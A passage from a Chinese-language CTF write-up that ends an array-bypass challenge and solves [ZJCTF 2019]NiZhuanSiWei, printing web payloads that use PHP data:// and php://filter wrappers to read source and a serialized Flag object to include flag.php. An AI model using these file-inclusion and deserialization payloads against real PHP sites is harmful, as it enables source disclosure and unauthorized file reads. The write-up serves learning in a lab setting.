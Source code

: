 第三关：

![image-20210903161101423](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210903161102.png)

数组直接绕：

`param1[]=1&param2[]=2`

## [ZJCTF 2019]NiZhuanSiWei

> 考点：php伪协议，反序列化
>
> php://filter/read=convert.base64-encode/resource= 可以以base64读取
>
> data://text/plain;base64,base64字符串 
>
> 我对两个伪协议的理解：data伪协议会先把这段协议处理的东西处理了，再交给php
>
> 而上面的php伪协议是先交给php处理了，再用伪协议处理。

打开环境

![image-20210903194919768](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210903194922.png)

首先要读取一个文件名为变量$text的文件，然后判断是否等于这个字符串

使用data伪协议：

`?text=data://text/plain,welcome to the zjctf`

再看嵌套的if，可以看到这里的file是不能包含flag的。看else语句，有提示include一个useless.php

这里直接Include会被php解析，使用php伪协议转base64：

`file=php://filter/read=convert.base64-encode/resource=useless.php`

![image-20210903201058441](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210903201059.png)

读代码



![image-20210903201125154](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210903201126.png)

读到源码之后直接include一下useless.php。看上面的useless.php源码，里面是有tostring方法的。

因此只需要把password正常反序列化，然后输出即可：

```php+HTML
?text=data://plain/text,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

![image-20210903211524750](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210903211525.png)

## [极客大挑战 2019]HardSQL
